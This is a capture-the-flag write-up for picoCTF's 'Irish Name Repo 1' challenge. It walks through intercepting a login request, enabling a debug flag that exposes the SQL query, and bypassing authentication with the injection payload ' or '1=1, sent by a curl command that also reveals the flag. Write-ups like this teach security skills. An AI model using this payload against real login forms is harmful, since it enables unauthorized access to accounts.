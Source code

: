 # Irish Name Repo 1
Author: dch0017

## Challenge Description
There is a website running at. Do you think you can log us in? Try to see if you can login!

## Accessing Site
We get this site full of famous Irish people I guess?: </br>
![website](./website.png)
</br>

## Navigating Site
We can navigate around the site, but on the left hand side I am drawn to the ```Admin Login``` section. This brings us to a totally new ```login.html``` portion of the site.</br>
![login](./admin.png)
</br>

## Login Test
Let's open burpsuite to monitor the traffic as we send a fake request along, let's use username and password ```test```. Immediately we get a giant `Login failed` page.
But if we look at the actual POST request that was sent during login we see something interesting:
```
POST /problem/33850/login.php HTTP/1.1
Host: jupiter.challenges.picoctf.org
Content-Length: 35
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://jupiter.challenges.picoctf.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://jupiter.challenges.picoctf.org/problem/33850/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=test&password=test&debug=0
```

The ```POST``` request contains our username and password, but also a `debug` value set to `0`. Let's try that and intercept our request and change it to `1`.

## Debug=1
After passing our edited request along, we get our failed login page again. Now at the top though, we have our username and password, and the SQL query that was passed along.
```
username: test
password: test
SQL query: SELECT * FROM users WHERE name='test' AND password='test'
```

## SQL Injection
We see that it is a standard `SELECT * FROM table WHERE` query for login but we don't know if there is any special validation checks on the input. We can easily do a quick check by setting the `name` and `password` values to true by using an `or` statement.

To do this we can use the following payload for both our `name` and `password`: 
```
' or '1=1
```

This would equate to the query:
`SELECT * FROM users WHERE name='' or '1=1' AND password='' or '1=1'`

Since 1 will always equal 1, this should work if there is no input validation.

## Flag
![flag](./flag.png)
</br>


## Linux
We can also do this using `curl` but we need to make sure to url-encode our input so that it will be passed correctly.
```console
┌──(kalie㉿kali)-[~]
└─$ curl -X POST https://jupiter.challenges.picoctf.org/problem/33850/login.php --data "username=%27+or+%271%3D1&password=%27+or+%271%3D1&debug=0" -s | grep -o "picoCTF{.*}" --color=none
picoCTF{s0m3_SQL_f8adf3fb}
```
